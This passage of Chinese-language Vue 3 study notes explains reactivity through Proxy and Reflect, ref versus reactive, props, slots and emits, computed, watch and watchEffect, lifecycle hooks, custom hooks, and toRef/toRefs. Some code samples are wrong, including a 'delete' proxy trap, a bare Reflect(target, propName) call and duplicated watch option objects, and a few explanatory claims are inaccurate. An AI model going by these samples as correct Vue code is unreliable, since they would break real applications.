    addSex() {
      this.$set(this.person, 'sex', '女')
    },
    removeHobby() {
      this.hobby.shift(this.person.hobby)
    },
  },
}
</script>
~~~


底层上实际上使用的是 setter 和 getter 来实现监控数据变化来触发页面更新的，如：

~~~js
      let person = {
        name: 'zs',
        age: 18,
      }

      let p = {}
      Object.defineProperty(p, 'name', {
        get() {
          console.log('有人读取了 p 中的 name 属性，触发渲染，将 person.name 值读取出')
          return person.name
        },
        set(value) {
          console.log('有人改写了 p 中的 name 属性，触发渲染，将 person.name 值改写为 p.name')
          person.name = value
        },
      })
~~~

> age 属性同样需要一份 defineProperty


### 4.2 Vue3.x 响应式原理

通过 reactive 创建的响应式数据（对象、数组），可以直接更改数据源，而不会导致页面不更新的问题，如：

~~~vue
<template>
  <div>
    <h2>姓名：{{ person.name }}</h2>
    <h2>年龄：{{ person.age }}</h2>
    <h2 v-show="person.sex">性别:{{ person.sex }}</h2>
    <h2>爱好：{{ hobby }}</h2>
    <button @click="addSex">添加对象数据</button>
    <button @click="changeHobby">删除数组数据</button>
  </div>
</template>

<script>
import { reactive } from '@vue/reactivity'
export default {
  setup() {
    let person = reactive({
      name: 'zs',
      age: '18',
    })
    let hobby = reactive(['学习', '吃饭', '睡觉'])

    function addSex() {
      person.sex = '女'
    }
    function changeHobby() {
      hobby[0] = '游泳'
    }
    return {
      person,
      hobby,
      addSex,
      changeHobby,
    }
  },
}
</script>
~~~


Proxy 代理

~~~js
let p = new Proxy(person, {})
~~~

> 就这一句话，只要修改 p 中的属性，那么原型上的 person 对应的属性值也会同样被修改


模拟 Vue3.x 中实现响应式

~~~js
      let person = {
        name: 'zs',
        age: 18,
      }

      let p = new Proxy(person, {
        get(target, propName) {
          console.log(`有人读取了p身上的${propName}属性`)
          return target[propName]
        },
        set(target, propName,value) {
          console.log(`有人修改、或添加了p身上的${propName}属性`)
          target[propName] = value
        },
        delete(target, propName) {
          console.log(`有人删除了p身上的${propName}属性`)
          return delete target[propName]
        },
      })
~~~


Refelect

reflect 是 window 上的一个方法，用于操作对象属性，如：

~~~js
let obj = { a: 1, b: 2 }
// 读取对象属性
Reflect.get(obj,'a')
// 修改对象属性
Reflect.set(obj, 'a', 666)
// 删除对象属性
Reflect.deleteProperty(obj,'a')
~~~


ECMA 正在试图将 Object 这个顶级对象中的一些方法移植到 Reflect 中，如 Object.defineProperty()

~~~js
// 当在 Object.defineProperty() 中连续对同一对象定义新的属性时，控制台报错
Object.defineProperty(obj, 'c', {
    get() {
        return 3
    },
})

Object.defineProperty(obj, 'c', {
    get() {
        return 4
    },
~~~

> 报错：Cannot redefine property: c


而 Reflect 中的 defineProperty() 方法不会报错，而 c 的值是第一次定义的值，后一次会被忽略

~~~js
Reflect.defineProperty(obj, 'c', {
    get() {
        return 3
    },
})

Reflect.defineProperty(obj, 'c', {
    get() {
        return 4
    },
})
~~~

> obj.c 的值是 3


但是 Reflect 是有返回值的，如：

~~~js
const res1 = Reflect.defineProperty(obj, 'c', {
    get() {
        return 3
    },
})

const res2 = Reflect.defineProperty(obj, 'c', {
    get() {
        return 4
    },
})

console.log(res1, res2)
~~~

> 输出 true, false，由此可见，当重复定义对象的属性时，Reflect 方法返回 false


这样做的好处就是避免了大量的 try...catch，来捕获错误，否则出现一个错误就会使代码停止运行，由于这个特性，Vue 3.x 中也使用了 Reflect 来操作对象中的属性，如：

~~~js
      let person = {
        name: 'zs',
        age: 18,
      }

      let p = new Proxy(person, {
        get(target, propName) {
          console.log(`有人读取了p身上的${propName}属性`)
          return Reflect(target,propName)
        },
        set(target, propName,value) {
          console.log(`有人修改、或添加了p身上的${propName}属性`)
          Reflect.set(target, propName, value)
        },
        delete(target, propName) {
          console.log(`有人删除了p身上的${propName}属性`)
          return Reflect.deleteProperty(target, propName)
        },
      })
~~~


Vue3.x 响应式实现原理：

通过 Proxy（代理）：拦截对象中任意属性的变化，包括：属性值的读写、属性的添加、属性的删除等。

通过 Reflect（反射）：对被代理对象的属性进行操作


## 5. ref 与 reactive 对比

从定义数据角度来对比：

- ref 用来定义：基本数据类型
- reactive 用来定义：对象（或数组）类型数据

> ref 也可以用来定义对象（或数组）类型数据，它内部会自动通过 reactive 转为代理对象


从原理角度对比：

- ref 通过 Object.defineProperty() 的 get 与 set 来实现响应式
- reactive 通过使用 Proxy 来实现响应式（数据劫持），并通过 Reflect 操作源对象内部的数据


从使用角度对比：

- ref 定义的数据：操作需要 .value ，读取数据时模板中直接读取，不需要加 .value
- reactive 定义的数据：操作数据与读取数据均不需要 .value


## 6. props, emits, slots

### 6.1 props

当父组件通过自定义属性给子组件传值时，如果子组件没有用 props 定义接收属性的话，传递过来的值其实是保存在 vc.$attrs 上，如：

~~~vue
<template>
  <Demo name="zs" age="18"></Demo>
</template>

<script>
import Demo from './components/Demo.vue'
export default {
  name: 'App',
  components: {
    Demo,
  },
}
</script>

~~~


子组件

~~~vue
<template>
  <div></div>
</template>

<script>
export default {
  name: 'Demo',
    // 组件加载时输出 vc 组件
  mounted() {
    console.log(this)
  },
}
</script>

~~~


如果子组件定义了 props 属性，则 attrs 身上的值会被移除，传递过来的值会被挂载到 vc 身上

~~~vue
<template>
  <div></div>
</template>

<script>
export default {
  name: 'Demo',
  props: ['name', 'age'],
  mounted() {
    console.log(this)
  },
}
</script>
~~~


同样，如果 props 只接受部分传值，没有接收的值还是会存在 attrs 身上

~~~js
<template>
  <div></div>
</template>

<script>
export default {
  name: 'Demo',
  props: ['name'],
  mounted() {
    console.log(this)
  },
}
</script>

~~~


vue3.x 中 setup 可以接受两个参数，第一个参数就是 props

~~~vue
<template>
  <div>
    <!-- 父组件传值 -->
    <Test name="zs" age="18"></Test>
  </div>
</template>

<script>
import Test from './components/Test'
export default {
  name: 'App',
  components: {
    Test,
  },
}
</script>

~~~


子组件

~~~vue
<template>
  <div></div>
</template>

<script>
export default {
  name: 'Test',
  // 如果父组件传值，子组件必须使用 props 属性接收
  props: ['name', 'age'],
  setup(props) {
    console.log(props)
  },
}
</script>

~~~

> - 如果子组件不定义 props 属性，控制台报错
> - 如果子组件接受不存在的 props 属性，则该属性值为 undefined
> - 如果子组件只接受部分 props 属性，控制台报错


注：props 属性会被转换成 Proxy 对象


setup() 中的第二个参数是 context，它是一个上下文对象，包含众多属性，如：


attrs 则与 Vue2.x 中的 vc.$attrs 类似，当传递属性没有定义 props 属性接收时，传递的值会保存在 context.attrs 中，如：

~~~vue
<template>
  <div></div>
</template>

<script>
export default {
  name: 'Test',
  // 没有使用 props 接收属性值
  // props: ['name', 'age'],
  setup(props, context) {
    console.log(context.attrs)
  },
}
</script>

~~~


输出的值即是父组件传递过来的值


其他规则与 Vue2.x 中的 vc.$attrs 类似

- 使用 props 接收后 attrs 中属性移除
- 接收部分 props，attrs 中保存未接收的 props 属性


### 6.2 slots

同 props 一样，在 vue2.x 中，如果子组件没有定义插槽位置的话，那么传递的内容则会被保存在 vc.$slot 上，如：

~~~vue
<template>
  <Demo>
    <h1>Power</h1>
  </Demo>
</template>

<script>
import Demo from './components/Demo.vue'
export default {
  name: 'App',
  components: {
    Demo,
  },
}
</script>
~~~


子组件

~~~vue
<template>
  <div></div>
</template>

<script>
export default {
  name: 'Demo',
  mounted() {
    console.log(this)
  },
}
</script>
~~~





- 使用 `<slot></slot>` 接受插槽内容后，vc.$slots 上的内容则不会被移除！
- 如果是命名插槽，只定义部分插槽位置，已定义和未定义的插槽内容都是被挂载到 vc.$slots 上


~~~vue
<template>
  <Demo>
    <template v-slot:s1>
      <h1>Power1</h1>
    </template>
    <template v-slot:s2>
      <h1>Power2</h1>
    </template>
  </Demo>
</template>
~~~


~~~vue
<template>
  <div>
    <slot name="s1"></slot>
  </div>
</template>

<script>
export default {
  name: 'Demo',
  mounted() {
    console.log(this)
  },
}
</script>

~~~


setup() 中 context 下的 slot 属性类似于 Vue2.x 中的 vc.$slots

~~~vue
<template>
  <div>
    <Test>
      <template v-slot:s1>
        <h2>插槽S1</h2>
      </template>
    </Test>
  </div>
</template>

<script>
import Test from './components/Test'
export default {
  name: 'App',
  components: {
    Test,
  },
}
</script>

~~~


~~~vue
<template>
  <div>
    <button @click="test">显示插槽</button>
    <!-- 节点会显示在 context.slots 中 -->
    <slot name="s1"></slot>
  </div>
</template>

<script>
export default {
  name: 'Test',
  setup(props, context) {
    function test() {
      console.log(context.slots)
    }
    return { test }
  },
}
</script>

~~~


### 6.3 emits

setup() 中 context 中有一个 emit 方法，可以触发事件

~~~vue
<template>
  <div>
    <Test @sayHi="hello"></Test>
  </div>
</template>

<script>
import Test from './components/Test'
export default {
  name: 'App',
  components: {
    Test,
  },
  setup() {
    function hello(value) {
      console.log(`触发了 SayHi 事件，传递过来的值为${value}`)
    }
    return { hello }
  },
}
</script>

~~~


子组件

~~~vue
<template>
  <div>
    <button @click="test">触发事件</button>
  </div>
</template>

<script>
export default {
  name: 'Test',
  // 子组件中需要定义子组件被绑定的事件
  emits: ['sayHi'],
  setup(props, context) {
    function test() {
      context.emit('sayHi', 666)
    }
    return { test }
  },
}
</script>

~~~


## 7. setup() 加载节点

setup() 加载节点是要比 beforeCreated() 声明周期函数还要早，如：

~~~vue
<template>
  <div>
    <h2>姓名：{{ person.name }}</h2>
    <h2>年龄：{{ person.age }}</h2>
  </div>
</template>

<script>
import { reactive } from '@vue/reactivity'
export default {
  beforeCreate() {
    console.log('run beforeCreated')
  },
  setup() {
    console.log('run setup')
    let person = reactive({
      name: 'zs',
      age: '18',
    })
    return { person }
  },
}
</script>

~~~

> 运行结果是 run setup 早于 run beforeCreated


另外，setup 中的 this 是 undefined

~~~vue
<template>
  <div>
    <h2>姓名：{{ person.name }}</h2>
    <h2>年龄：{{ person.age }}</h2>
  </div>
</template>

<script>
import { reactive } from '@vue/reactivity'
export default {
  beforeCreate() {
    console.log('run beforeCreated')
  },
  setup() {
    console.log('run setup')
      // 输出 undefined
    console.log(this)
    let person = reactive({
      name: 'zs',
      age: '18',
    })
    return { person }
  },
}
</script>

~~~


## 8. computed 计算属性

vue3.x 中的计算属性也可以像 Vue2.x 中一样，写 computed 属性，如：

~~~vue
<template>
  <div>
    姓：<input type="text" v-model="person.lastname" /><br />
    名：<input type="text" v-model="person.firstname" /><br />
    全称：{{ fullname }}
  </div>
</template>

<script>
import { reactive } from 'vue'
export default {
  name: 'App',
  computed: {
    fullname() {
      return this.person.lastname + '-' + this.person.firstname
    },
  },
  setup() {
    let person = reactive({
      lastname: '张',
      firstname: '三',
    })
    return { person }
  },
}
</script>

~~~


但是不建议这样写，Vue3.x 中计算属性建议写在 setup() 中，computed 是一个函数，如：

~~~vue
<template>
  <div>
    姓：<input type="text" v-model="person.lastname" /><br />
    名：<input type="text" v-model="person.firstname" /><br />
    全称：{{ person.fullname }}
  </div>
</template>

<script>
// 引入 computed
import { reactive, computed } from 'vue'
export default {
  name: 'App',
  setup() {
    let person = reactive({
      lastname: '张',
      firstname: '三',
    })

    person.fullname = computed(() => {
      return person.lastname + '-' + person.firstname
    })

    return { person }
  },
}
</script>

~~~


如果有需求需要改写 computed 属性，需要写 computed 完整形式，如：

~~~vue
<template>
  <div>
    姓：<input type="text" v-model="person.lastname" /><br />
    名：<input type="text" v-model="person.firstname" /><br />
    全称：<input type="text" v-model="person.fullname" />
  </div>
</template>

<script>
// 引入 computed
import { reactive, computed } from 'vue'
export default {
  name: 'App',
  setup() {
    let person = reactive({
      lastname: '张',
      firstname: '三',
    })

    person.fullname = computed({
      get() {
        return person.lastname + '-' + person.firstname
      },
      set(value) {
        const nameArr = value.split('-')
        person.firstname = nameArr[1]
        person.lastname = nameArr[0]
      },
    })

    return { person }
  },
}
</script>

~~~


## 9. 监视属性

### 9.1 Vue2.x 监视属性

~~~vue
<template>
  <div>
    sum值：{{ sum }}<br />
    <button @click="sum++">点我++</button>
  </div>
</template>

<script>
import { ref } from 'vue'
export default {
  name: 'App',
  watch: {
    sum(newValue, oldValue) {
      console.log('sum值变化了', newValue, oldValue)
    },
  },
  setup() {
    let sum = ref(0)
    return { sum }
  },
}
</script>
~~~


watch 完整写法，可以添加 immediate 和 deep 属性

~~~vue
<template>
  <div>
    sum值：{{ sum }}<br />
    <button @click="sum++">点我++</button>
  </div>
</template>

<script>
import { ref } from 'vue'
export default {
  name: 'App',
  watch: {
    sum: {
      immediate: true,
      deep: true,
      handler(newValue, oldValue) {
        console.log('sum值变化了', newValue, oldValue)
      },
    },
  },
  setup() {
    let sum = ref(0)
    return { sum }
  },
}
</script>

~~~


### 9.2 Vue3.x 监视 ref 响应式数据

Vue3.x 监视属性函数式写法，监视 ref 所定义的响应式数据

~~~vue
<template>
  <div>
    sum值：{{ sum }}<br />
    <button @click="sum++">点我++</button>
  </div>
</template>

<script>
import { ref, watch } from 'vue'
export default {
  name: 'App',
  setup() {
    let sum = ref(0)
    watch(sum, (newValue, oldValue) => {
      console.log('sum 值变化了', newValue, oldValue)
    })
    return { sum }
  },
}
</script>

~~~


完整写法

~~~vue
<template>
  <div>
    sum值：{{ sum }}<br />
    <button @click="sum++">点我++</button>
  </div>
</template>

<script>
import { ref, watch } from 'vue'
export default {
  name: 'App',
  setup() {
    let sum = ref(0)
    watch(
      sum,
      (newValue, oldValue) => {
        console.log('sum 值变化了', newValue, oldValue)
      },
      { immediate: true },
      { deep: true }
    )
    return { sum }
  },
}
</script>

~~~


利用 watch 监视属性函数还可以同时监视多个对象，如：

~~~vue
<template>
  <div>
    sum值：{{ sum }}<br />
    <button @click="sum++">点我++</button>
    <hr />
    msg值：{{ msg }}<br />
    <button @click="msg += '!'">点我+!</button>
  </div>
</template>

<script>
import { ref, watch } from 'vue'
export default {
  name: 'App',
  setup() {
    let sum = ref(0)
    let msg = ref('你好啊')
    watch(sum, (newValue, oldValue) => {
      console.log('sum值改变了', newValue, oldValue)
    })
    watch(msg, (newValue, oldValue) => {
      console.log('msg值改变了', newValue, oldValue)
    })
    return { sum, msg }
  },
}
</script>

~~~


简写方法：

~~~vue
<template>
  <div>
    sum值：{{ sum }}<br />
    <button @click="sum++">点我++</button>
    <hr />
    msg值：{{ msg }}<br />
    <button @click="msg += '!'">点我+!</button>
  </div>
</template>

<script>
import { ref, watch } from 'vue'
export default {
  name: 'App',
  setup() {
    let sum = ref(0)
    let msg = ref('你好啊')
    watch([sum, msg], (newValue, oldValue) => {
      console.log('sum或msg值改变了', newValue, oldValue)
    })
    return { sum, msg }
  },
}
</script>

~~~


其中 newValue，oldValue 也变成了数组

~~~
[sum.newValue, msg.newValue],[sum,oldValue,msg.oldValue]
~~~


### 9.3 监视 reactive 响应式数据

监视 reactive 对象所定义的响应式数据

- 无法显示 oldValue
- 监视对象中的对象属性，需要开启 deep 选项


当触发事件，改变 reactive 数据对象值时，oldValue 值与 newValue 值是一样的

~~~vue
<template>
  <div>
    姓名：{{ person.name }} <br />
    年龄：{{ person.age }}
  </div>
  <button @click="person.name += '~'">修改姓名</button>
  <button @click="person.age++">修改年龄</button>
</template>

<script>
import { reactive, watch } from 'vue'
export default {
  name: 'App',
  setup() {
    let person = reactive({
      name: 'zs',
      age: '18',
    })
    watch(person, (newValue, oldValue) => {
      console.log('name或age值改变了', newValue, oldValue)
    })
    return { person }
  },
}
</script>

~~~


结果：


如果想监视其中某一属性的话，不可以直接写成 `watch(person.name,(newValue,oldValue)=>{})`需要将监视参数写成一个回调函数，如：

~~~vue
<template>
  <div>
    姓名：{{ person.name }} <br />
    年龄：{{ person.age }}<br />
    薪资：{{ person.j1.wage }}<br />
  </div>
  <button @click="person.name += '~'">修改姓名</button>
  <button @click="person.age++">修改年龄</button>
  <button @click="person.j1.wage += '!'">修改薪资</button>
</template>

<script>
import { reactive, watch } from 'vue'
export default {
  name: 'App',
  setup() {
    let person = reactive({
      name: 'zs',
      age: '18',
      j1: {
        wage: '50K',
      },
    })
    watch(
        // 回调函数的返回值即是所需要监视的对象
      () => person.name,
      (newValue, oldValue) => {
        console.log('name值改变了', newValue, oldValue)
      },
      { deep: false }
    )
    return { person }
  },
}
</script>

~~~


监视对象内多个属性

~~~vue
<template>
  <div>
    姓名：{{ person.name }} <br />
    年龄：{{ person.age }}<br />
    薪资：{{ person.j1.wage }}<br />
  </div>
  <button @click="person.name += '~'">修改姓名</button>
  <button @click="person.age++">修改年龄</button>
  <button @click="person.j1.wage += '!'">修改薪资</button>
</template>

<script>
import { reactive, watch } from 'vue'
export default {
  name: 'App',
  setup() {
    let person = reactive({
      name: 'zs',
      age: '18',
      j1: {
        wage: '50K',
      },
    })
    watch(
        // 使用数组
      [() => person.name, () => person.age, () => person.j1.wage],
      (newValue, oldValue) => {
        console.log('name值改变了', newValue, oldValue)
      },
      { deep: false }
    )
    return { person }
  },
}
</script>

~~~


复杂数据（对象中嵌套对象），deep 属性无效

~~~vue
<template>
  <div>
    姓名：{{ person.name }} <br />
    年龄：{{ person.age }}<br />
    薪资：{{ person.j1.wage }}<br />
  </div>
  <button @click="person.name += '~'">修改姓名</button>
  <button @click="person.age++">修改年龄</button>
  <button @click="person.j1.wage += '!'">修改薪资</button>
</template>

<script>
import { reactive, watch } from 'vue'
export default {
  name: 'App',
  setup() {
    let person = reactive({
      name: 'zs',
      age: '18',
      j1: {
        wage: '50K',
      },
    })
    watch(
      person,
      (newValue, oldValue) => {
        console.log('name或age值改变了', newValue, oldValue)
      },
      { deep: false }
    )
    return { person }
  },
}
</script>

~~~


但是如果检测目标是复杂对象中的对象的话，deep 属性是有效的，如：

~~~vue
<template>
  <div>
    姓名：{{ person.name }} <br />
    年龄：{{ person.age }}<br />
    薪资：{{ person.j1.wage }}<br />
  </div>
  <button @click="person.name += '~'">修改姓名</button>
  <button @click="person.age++">修改年龄</button>
  <button @click="person.j1.wage += '!'">修改薪资</button>
</template>

<script>
import { reactive, watch } from 'vue'
export default {
  name: 'App',
  setup() {
    let person = reactive({
      name: 'zs',
      age: '18',
      j1: {
        wage: '50K',
      },
    })
    watch(
      () => person.j1,
      (newValue, oldValue) => {
        console.log('name值改变了', newValue, oldValue)
      },
      { deep: true }
    )
    return { person }
  },
}
</script>

~~~


### 9.4 ref 监视时 value 的使用

监测单一被 ref 转换的数据时，不用加 `.value` 因为监测的是这个变量被转换的对象，而不是这个变量的值

~~~vue
<template>
  <div>
    求和：{{ sum }} <br />
    姓名：{{ person.name }} <br />
    年龄：{{ person.age }}<br />
  </div>
  <button @click="sum++">点我+1</button>
  <button @click="person.name += '~'">修改姓名</button>
  <button @click="person.age++">修改年龄</button>
</template>

<script>
import { ref, watch } from 'vue'
export default {
  name: 'App',
  setup() {
    let sum = ref(0)
    let person = ref({
      name: 'zs',
      age: '18',
    })
    watch(sum, (newValue, oldValue) => {
      console.log('name值改变了', newValue, oldValue)
    })
    return { sum, person }
  },
}
</script>

~~~


如果 ref 转换的数据也是对象的话，那么就需要加上 .value ，因为 Vue 内部会将这个对象转换成 Proxy 对象，即内部进行了一个 reactive 操作。针对该对象进行的任何操作都会被认为是响应式的，

~~~vue
<template>
  <div>
    求和：{{ sum }} <br />
    姓名：{{ person.name }} <br />
    年龄：{{ person.age }}<br />
  </div>
  <button @click="sum++">点我+1</button>
  <button @click="person.name += '~'">修改姓名</button>
  <button @click="person.age++">修改年龄</button>
</template>

<script>
import { ref, watch } from 'vue'
export default {
  name: 'App',
  setup() {
    let sum = ref(0)
    let person = ref({
      name: 'zs',
      age: '18',
    })
    watch(person.value, (newValue, oldValue) => {
      console.log('name值改变了', newValue, oldValue)
    })
    return { sum, person }
  },
}
</script>

~~~


如果只监视外层 person 对象，那么修改 person.name，person.age 并不会引起该对象引用地址的变化。所以监视不起作用。我们只需要开启 deep:true，也可以解决这个问题

~~~vue
<template>
  <div>
    求和：{{ sum }} <br />
    姓名：{{ person.name }} <br />
    年龄：{{ person.age }}<br />
  </div>
  <button @click="sum++">点我+1</button>
  <button @click="person.name += '~'">修改姓名</button>
  <button @click="person.age++">修改年龄</button>
</template>

<script>
import { ref, watch } from 'vue'
export default {
  name: 'App',
  setup() {
    let sum = ref(0)
    let person = ref({
      name: 'zs',
      age: '18',
    })
    watch(
      person,
      (newValue, oldValue) => {
        console.log('name值改变了', newValue, oldValue)
      },
      { deep: true }
    )
    return { sum, person }
  },
}
</script>

~~~


### 9.5 watchEffect

watchEffect 是个智能监视 API，其中的回调函数中使用了哪个数据，那么该数据就会被监视，并执行其中的逻辑，如：

~~~vue
<template>
  <div>
    求和：{{ sum }} <br />
    姓名：{{ person.name }} <br />
    年龄：{{ person.age }}<br />
  </div>
  <button @click="sum++">点我+1</button>
  <button @click="person.name += '~'">修改姓名</button>
  <button @click="person.age++">修改年龄</button>
</template>

<script>
import { ref, watch, watchEffect } from 'vue'
export default {
  name: 'App',
  setup() {
    let sum = ref(0)
    let person = ref({
      name: 'zs',
      age: '18',
    })
    watchEffect(() => {
      let x1 = sum.value
      let x2 = person.value.age
      console.log('监视对象数值发生变化')
    })
    return { sum, person }
  },
}
</script>

~~~


watchEffect 类似于 computed

- computed 注重计算出来的值（需要有返回值）
- watchEffect 更注重的是过程（回调函数中的业务逻辑），所以不用写返回值


# Vue3 的生命周期

vue3 中的生命周期函数大部分一致，只是最后销毁组件时将 beforeDestory 和 Destoryed 更改为了

- beforeUnmount
- unmounted


Vue2.x 中，可以不指定 el ，直到调用 `$mount('#app')` 才继续往下执行，但 Vue3 中，必须使用 app.mount(el) 变成了先决条件。

~~~vue
app = Vue.createApp(options)
app.mount(el)
~~~


在 Vue3 中除了可以像 Vue2.x 中一样写声明周期函数，也可以将生命周期函数写在 setup() 中，不过需要改名，如：

- beforeCreate -> setup()
- created -> setup()
- beforeMount -> onBeforeMount
- mounted -> onMounted
- beforeUpdate -> onBeforeUpdate
- updated -> onUpdated
- beforeUnmount -> onBeforeUnmount
- unmonted -> onUnmonted

> setup() 相当于 beforeCreate 和 create，因为默认会自动执行 setup()


App 组件

~~~vue
<template>
  <Test v-if="isShow"></Test>
  <button @click="isShow = !isShow">开启/隐藏组件</button>
</template>

<script>
import { ref } from 'vue'
import Test from './components/Test'
export default {
  name: 'App',
  components: { Test },
  setup() {
    let isShow = ref(true)
    return { isShow }
  },
}
</script>

~~~


~~~vue
<template>
  <div>求和：{{ sum }} <br /></div>
  <button @click="sum++">点我+1</button>
</template>

<script>
import { ref, onBeforeMount, onMounted, onBeforeUpdate, onUpdated, onBeforeUnmount, onUnmounted } from 'vue'
export default {
  name: 'App',
  setup() {
    let sum = ref(0)
    onBeforeMount(() => {
      console.log('挂载之前')
    })
    onMounted(() => {
      console.log('挂载之后')
    })
    onBeforeUpdate(() => {
      console.log('更新之前')
    })
    onUpdated(() => {
      console.log('更新之后')
    })
    onBeforeUnmount(() => {
      console.log('卸载之前')
    })
    onUnmounted(() => {
      console.log('卸载之后')
    })
    return { sum }
  },
}
</script>

~~~


如果同时写 Vue2.x 和 Vue3.x 的生命周期函数的话，那么 setup() 中的生命周期函数的优先级要高于 Vue2.x 版本的


# 自定义 hook

本质上是一个函数，把 setup 函数中使用的一组功能进行封装，类似于 vue2.x 中的 mixin，自定义 hook 的优势是复用代码，让 setup 中的逻辑更清晰


例：定义一个绑定 window，获取鼠标坐标的组件，父组件 APP 引入

~~~vue
<template>
  <Test v-if="isShow"></Test>
  <button @click="isShow = !isShow">开启/隐藏组件</button>
</template>

<script>
import { ref } from 'vue'
import Test from './components/Test'
export default {
  name: 'App',
  components: { Test },
  setup() {
    let isShow = ref(true)
    return { isShow }
  },
}
</script>

~~~


~~~vue
<template>
  坐标 x：{{ point.x }} <br />
  坐标 y：{{ point.y }}<br />
</template>

<script>
import { reactive, onMounted } from 'vue'

export default {
  name: 'App',

  setup() {
    let point = reactive({
      x: 0,
      y: 0,
    })
    onMounted(() => {
      window.addEventListener('click', (event) => {
        point.x = event.pageX
        point.y = event.pageY
        console.log(point.x, point.y)
      })
    })
    return { point }
  },
}
</script>

~~~


当使用 v-if 控制子组件不显示时，子组件的功能依然有效，所以还需要添加一个 onBeforeMount()

~~~vue
<template>
  坐标 x：{{ point.x }} <br />
  坐标 y：{{ point.y }}<br />
</template>

<script>
import { reactive, onMounted, onBeforeUnmount } from 'vue'

export default {
  name: 'App',

  setup() {
    let point = reactive({
      x: 0,
      y: 0,
    })

    function getPoint(event) {
      point.x = event.pageX
      point.y = event.pageY
      console.log(point.x, point.y)
    }
    onMounted(() => {
      window.addEventListener('click', getPoint)
    })
    onBeforeUnmount(() => {
      window.removeEventListener('click', getPoint)
    })
    return { point }
  },
}
</script>

~~~


- 自定义 hook，将获取坐标这个功能封装起来，在 src/hooks 下创建 usePoint.js

~~~js
import { reactive, onMounted, onBeforeUnmount } from 'vue'
export default function () {
  let point = reactive({
    x: 0,
    y: 0,
  })

  function getPoint(event) {
    point.x = event.pageX
    point.y = event.pageY
    console.log(point.x, point.y)
  }
  onMounted(() => {
    window.addEventListener('click', getPoint)
  })
  onBeforeUnmount(() => {
    window.removeEventListener('click', getPoint)
  })
  return point
}

~~~


组件中引用

~~~vue
<template>
  坐标 x：{{ point.x }} <br />
  坐标 y：{{ point.y }}<br />
</template>

<script>
import usePoint from '../hooks/usePoint'

export default {
  name: 'App',

  setup() {
    let point = usePoint()
    return { point }
  },
}
</script>

~~~


# toRef, toRefs

创建一个 ref 对象，其 value 值指向另一个对象中的某个属性

语法：`const name = toRef(person,'name')`

应用：要将响应式对象中的某个属性单独提供给外部使用时

扩展：toRefs 与 toRef 功能一致，但可以批量创建多个 ref 对象，语法：`toRefs(person)`


优化对象数据的调用

~~~vue
<template>
  <div>
    姓名：{{ person.name }} <br />
    年龄：{{ person.age }}<br />
    薪资：{{ person.j1.wage }}K<br />
  </div>
  <button @click="person.name += '~'">修改姓名</button>
  <button @click="person.age++">修改年龄</button>
  <button @click="person.j1.wage++">修改薪资</button>
</template>

<script>
import { reactive } from 'vue'
export default {
  name: 'App',
  setup() {
    let person = reactive({
      name: 'zs',
      age: '18',
      j1: {
        wage: '50',
      },
    })
    return { person }
  },
}
</script>

~~~


直接将属性提取出来，优化模板中的数据展示

~~~vue
<template>
  <div>
    姓名：{{ name }} <br />
    年龄：{{ age }}<br />
    薪资：{{ wage }}K<br />
  </div>
  <button @click="name += '~'">修改姓名</button>
  <button @click="age++">修改年龄</button>
  <button @click="wage++">修改薪资</button>
</template>

<script>
import { reactive } from 'vue'
export default {
  name: 'App',
  setup() {
    let person = reactive({
      name: 'zs',
      age: '18',
      j1: {
        wage: '50',
      },
    })
    return {
      name: person.name,
      age: person.age,
      wage: person.j1.wage,
    }
  },
}
</script>

~~~


结果发现丢失响应式，这是因为，我们改动的不是原来的 ref 对象中的 value 值，而是返回的新对象，两个对象引用不一样，所以不会触发响应式，如：

~~~js
      let person = {
        name: 'zs',
        age: 18,
      }

      let p = new Proxy(person, {
        set(target, propName, value) {
          console.log(`有人修改、或添加了p身上的${propName}属性`)
          Reflect.set(target, propName, value)
        },
      })

      let name = p.name
~~~

> 类似于我们这样修改了 name，但是实际上 name 与 p.name 没有任何关系


使用 toRef，会将对象中的 value 也转化成 ref 对象，该 ref 对象中的对应源数据中的 value

~~~vue
<template>
  <div>
    {{ person }}
    姓名：{{ name }} <br />
    年龄：{{ age }}<br />
    薪资：{{ wage }}K<br />
  </div>
  <button @click="name += '~'">修改姓名</button>
  <button @click="age++">修改年龄</button>
  <button @click="wage++">修改薪资</button>
</template>

<script>
import { reactive, toRef } from 'vue'
export default {
  name: 'App',
  setup() {
    let person = reactive({
      name: 'zs',
      age: '18',
      j1: {
        wage: '50',
      },
    })
    return {
      person,
      name: toRef(person, 'name'),
      age: toRef(person, 'age'),
      wage: toRef(person.j1, 'wage'),
    }
  },
}
</script>

~~~


toRefs 可以将对象中的所有属性转换为 Ref 对象，如：

~~~vue
<template>
  <div>
    {{ person }}<br />
    姓名：{{ name }} <br />
    年龄：{{ age }}<br />
    薪资：{{ j1.wage }}K<br />
  </div>
  <button @click="name += '~'">修改姓名</button>
  <button @click="age++">修改年龄</button>
  <button @click="j1.wage++">修改薪资</button>
</template>

<script>
import { reactive, toRef, toRefs } from 'vue'
export default {
  name: 'App',
  setup() {
    let person = reactive({
      name: 'zs',
      age: '18',
      j1: {
        wage: '50',
      },
    })
    return {
      person,
      ...toRefs(person),
    }
  },
}
</script>

~~~

> 只能解开一层对象，如果多层对象，模板渲染插值语法还是需要写出父级属性名


ref 与 toRef 区别

~~~vue
<template>
  <div>
    {{ person }}<br />
    姓名：{{ name }} <br />
    年龄：{{ age }}<br />
    薪资：{{ wage }}K<br />
  </div>
  <button @click="name += '~'">修改姓名</button>
  <button @click="age++">修改年龄</button>
  <button @click="wage++">修改薪资</button>
</template>

<script>
import { reactive, ref } from 'vue'
export default {
  name: 'App',
  setup() {
    let person = reactive({
      name: 'zs',
      age: '18',
      j1: {
        wage: '50',
      },
    })
    return {
      person,
      name: ref(person.name),
      age: ref(person.age),
      wage: ref(person.j1.wage),
    }
  },
}
</script>

~~~

> 虽然数据是响应式的，但是这个响应数据是 person.name 的值，也就是说我们定义了一个 ref('zs') ，当我们修改数据的时候，并不是修改的源数据，即 person.name 中的值。


# 其他 Composition API

## 1. shallowReactive 与 shallowRef

shallowReactive: 只处理对象最外层属性的响应式（浅响应式）

shallow：只处理基本数据类型的响应式，不进行对象的响应式处理。


什么时候使用？

- 如果有一个对象数据，结构比较深，但变化时只是外层属性变化 -> shallowReactive
- 如果有一个对象数据，后续功能不会修改该对象中的属性，而是生成新的对象来替换 -> shallowRef


## 2. readonly 与 shallowRef

readonly：让一个响应式数据变为只读（深只读）

shallowReadonly：让一个响应式数据变为只读（浅只读）

应用场景：不希望数据被修改时


## 3. toRaw 与 markRaw

toRaw:

- 作用：将一个由 ctive 生成的响应式对象转为普通对象
